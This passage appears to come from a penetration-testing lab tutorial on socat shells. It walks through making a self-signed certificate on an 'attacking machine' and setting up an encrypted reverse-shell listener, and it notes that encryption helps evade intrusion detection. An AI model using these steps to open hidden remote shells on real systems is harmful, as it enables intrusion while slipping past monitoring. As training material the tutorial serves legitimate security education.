 ![img](assets/etAuYzz.png)

Note that the socat shell is fully interactive, allowing us to use  interactive commands such as SSH. This can then be further improved by  setting the stty values as seen in the previous task, which will let us  use text editors such as Vim or Nano.

------

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

### Socat Encrypted Shells                            

One of the many great things about socat is that it's capable  of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the  decryption key, and are often able to bypass an IDS as a result.

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells. We'll cover a few examples at the  end of the task, but first let's talk about certificates. 

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

​          

```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This command creates a 2048 bit RSA key with matching cert file,  self-signed, and valid for just under a year. When you run this command  it will ask you to fill in information about the certificate. This can  be left blank, or filled randomly.

We then need to merge the two created files into a single `.pem` file:

```
cat shell.key shell.crt > shell.pem
```

Now, when we set up our reverse shell listener, we use:

```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our  certificate has been properly signed by a recognised authority. Please  note that the certificate *must* be used on whichever device is listening.
